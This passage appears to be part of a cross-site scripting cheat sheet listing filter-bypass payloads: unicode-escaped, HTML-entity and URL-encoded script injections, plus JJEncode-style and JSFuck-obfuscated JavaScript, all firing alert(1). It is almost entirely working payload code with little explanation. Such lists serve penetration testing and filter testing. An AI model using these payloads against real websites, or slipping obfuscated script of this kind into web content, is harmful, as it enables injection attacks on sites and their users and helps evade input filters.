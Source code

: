 ### Bypass using weird encoding or native interpretation

```javascript
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
```

### Bypass using jsfuck

Bypass using [jsfuck](http://www.jsfuck.com/)

```javascript
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
```

